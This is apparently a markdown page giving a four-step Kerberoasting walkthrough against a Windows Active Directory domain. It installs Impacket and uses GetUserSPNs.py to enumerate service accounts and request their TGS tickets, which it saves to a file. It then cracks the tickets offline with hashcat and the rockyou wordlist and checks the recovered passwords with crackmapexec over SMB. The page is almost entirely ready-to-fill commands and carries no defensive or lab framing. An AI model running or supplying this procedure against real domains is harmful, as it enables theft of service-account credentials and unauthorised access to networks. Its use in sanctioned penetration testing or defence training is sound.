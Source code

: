 ```yaml
---
legal-banner: true
---
```


### **Step 1: Set Up Impacket Tools**

1. Clone the Impacket repository:  
   ```bash
   git clone https://github.com/SecureAuthCorp/impacket.git
   ```

2. Navigate to the Impacket directory:  
   ```bash
   cd impacket
   ```

3. Install Impacket using pip:  
   ```bash
   sudo python3 -m pip install .
   ```

### **Step 2: List Accounts and Request TGS Tickets**

4. List SPN accounts:  
   ```bash
   GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME]
   ```

5. Request TGS tickets:  
   ```bash
   GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request
   ```

### **Step 3: Request Specific TGS Tickets and Save to File**

6. Request a specific TGS ticket:  
   ```bash
   GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request-user [SPN-USERNAME]
   ```

7. Save TGS tickets to a file:  
   ```bash
   GetUserSPNs.py -dc-ip [DC-IP] [DOMAIN]/[USERNAME] -request-user [SPN-USERNAME] -outputfile [OUTPUT-FILE]
   ```

### **Step 4: Crack TGS Tickets and Confirm Access**

8. Crack TGS tickets offline:  
   ```bash
   hashcat -m 13100 [TGS-FILE] /usr/share/wordlists/rockyou.txt
   ```

9. Confirm access with the cracked credentials:  
   ```bash
   crackmapexec smb [DC-IP] -u [USERNAME] -p [PASSWORD]
   ```

